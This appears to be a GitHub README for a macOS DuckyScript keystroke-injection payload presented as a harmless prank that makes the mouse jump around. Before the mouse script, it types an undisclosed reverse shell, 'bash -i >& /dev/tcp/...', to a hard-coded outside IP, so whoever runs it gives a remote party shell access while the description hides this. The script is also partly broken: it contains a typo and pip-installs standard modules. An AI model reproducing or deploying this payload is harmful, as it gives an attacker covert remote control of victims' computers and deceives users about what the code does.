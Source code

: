 # Mouse-Chaos-Payload-MacOS
DuckyScript that causes the virtual mouse of a computer to go hay-wire on MacOS.

## DISCLAIMER:
This is for security research purposes ONLY. Only use on machines where you have permission or your own.

## About
Version 1.0
<br>Author: samamsa7

## DuckyScript Code
<code><pre>
DELAY 75
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50
STRING bash -i >& /dev/tcp/173.255.247.7/87 0>&1
DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
DELAY 50
STRING pip3 install pyautogui
DELAY 500
DELAY 50
STRING pip3 install time
DELAY 550
STRING pip3 install random
DEALY 550
STRING nano payload.py
DELAY 50
STRING import pyautogui
DELAY 10
ENTER
DELAY 10
STRING import random
DELAY 10
ENTER
DELAY 10
STRING import time
DELAY 10
ENTER
DELAY 10
STRING while True:
DELAY 10
ENTER
DELAY 10
STRING    x = random.randint(0, pyautogui.size().width)
DELAY 10
ENTER
DELAY 10
STRING    y = random.randint(0, pyautogui.size().height)
DELAY 10
ENTER
DELAY 10
STRING   pyautogui.moveTo(x, y)
DELAY 10
ENTER
DELAY 10
STRING    time.sleep(0.01)
DELAY 10
CTRL X
DELAY 10
STRING y
DELAY 10
ENTER
DELAY 10
STRING python3 payload.py
DELAY 10
ENTER
DELAY 10
COMMAND M
</code></pre>

